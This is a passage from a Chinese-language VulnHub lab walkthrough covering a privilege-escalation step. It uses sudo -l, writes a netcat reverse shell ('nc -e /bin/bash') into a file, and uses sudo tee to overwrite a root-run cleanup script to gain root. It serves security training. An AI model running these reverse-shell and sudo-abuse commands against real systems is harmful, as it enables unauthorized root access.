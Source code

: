 ![image-20241205204535313](vulnhub靶场实战/image-20241205204535313.png)	

```
查看该用户什么命令可以以root权限执行。发现这个脚本和tee命令可以以root权限执行，而且不用输入root的密码。
sudo -l
```

![image-20241205204732168](vulnhub靶场实战/image-20241205204732168.png)	

```
tee这个命令可以把一个文件的内容覆盖掉原先文件的内容。
于是创建一个木马文件。
echo "nc -e /bin/bash 192.168.110.100 5555" > shell.txt
```

![image-20241205205111757](vulnhub靶场实战/image-20241205205111757.png)	

```
kali机器进行监听
nc -lvvp 5555
```

```
然后把这个反弹shell的内容，覆盖到这个tidyup脚本当中，最后等待三分钟即可获得root权限。
cat shell.txt | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh
```

![image-20241205205535298](vulnhub靶场实战/image-20241205205535298.png)	
